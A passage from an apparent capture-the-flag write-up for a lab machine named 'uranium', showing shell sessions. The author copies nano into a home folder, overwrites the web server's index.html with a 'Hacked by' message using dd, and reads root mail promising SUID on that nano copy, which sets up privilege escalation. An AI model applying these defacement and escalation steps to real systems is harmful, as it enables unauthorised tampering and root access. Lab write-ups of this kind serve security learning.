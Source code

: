```bash
kral4@uranium:/home/kral4$ cp /bin/nano .
cp /bin/nano .
kral4@uranium:/home/kral4$ ls
ls
chat_with_hakanbey  nano  user_2.txt
kral4@uranium:/home/kral4$
```

Now let's manipulate `index.html` with `dd`

```bash
kral4@uranium:/home/kral4$ LFILE=/var/www/html/index.html
LFILE=/var/www/html/index.html
kral4@uranium:/home/kral4$ echo "Hacked by vincida" | /bin/dd of=$LFILE
echo "Hacked by vincida" | /bin/dd of=$LFILE
0+1 records in
0+1 records out
18 bytes copied, 0.000473648 s, 38.0 kB/s
kral4@uranium:/home/kral4$
You have new mail in /var/mail/kral4
```
We got a new mail for `kral4`

```bash
kral4@uranium:/home/kral4$ cat /var/mail/kral4
cat /var/mail/kral4
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--


From root@uranium.thm  Mon Aug 30 20:00:26 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id 72D52401A1
	for <kral4@uranium.thm>; Mon, 30 Aug 2021 20:00:26 +0000 (UTC)
Message-ID: <683137.666524516-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
```